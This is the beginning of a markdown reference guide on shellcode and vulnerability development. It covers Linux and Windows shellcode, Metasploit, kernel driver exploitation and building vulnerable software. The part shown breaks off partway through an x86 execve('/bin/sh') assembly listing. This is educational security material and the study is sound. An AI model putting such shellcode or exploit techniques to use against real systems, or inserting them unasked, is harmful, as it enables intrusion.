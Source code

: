 # Shellcode

## The Complete Shellcode & Vulnerability Development Reference Guide

_From Assembly to Kernel Drivers: A Comprehensive Journey_

***

### Table of Contents

1. Introduction
2. Linux Shellcode Development
3. Windows Shellcode Development
4. Metasploit Workflow
5. Kernel Driver Exploitation
6. Creating Vulnerable Software
7. Debugging & Analysis Tools
8. Common Pitfalls & Solutions

***

### Introduction

This guide documents the complete process of shellcode development, from basic assembly to advanced kernel-level exploitation. Whether you're a beginner learning buffer overflows or an experienced researcher developing custom exploits, this reference provides the foundational knowledge and practical examples needed to understand and create working shellcode.

#### Key Concepts

* **Shellcode**: Position-independent machine code that executes a desired payload
* **System Calls**: The interface between user space and kernel functionality
* **API Resolution**: The process of dynamically finding function addresses in memory
* **Bad Characters**: Bytes that would break the shellcode in specific contexts

***

### Linux Shellcode Development

#### Basic Linux execve("/bin/sh") Shellcode

**Assembly Code**

nasm

```
section .text
    global _start

_start:
    ; Clear registers to avoid null bytes
    xor eax, eax        ; Clear EAX
    mov al, 0x0b        ; Syscall number for execve (11)

    ; Build "/bin/sh" string on stack
    push eax            ; Null terminator
    push 0x68732f2f     ; "hs//" (little-endian)
    push 0x6e69622f     ; "nib/" (little-endian)

    ; Set up registers for syscall
    mov ebx, esp        ; EBX points to "/bin/sh" string
    xor ecx, ecx        ; ECX = NULL (argv)
    xor edx, edx        ; EDX = NULL (envp)

```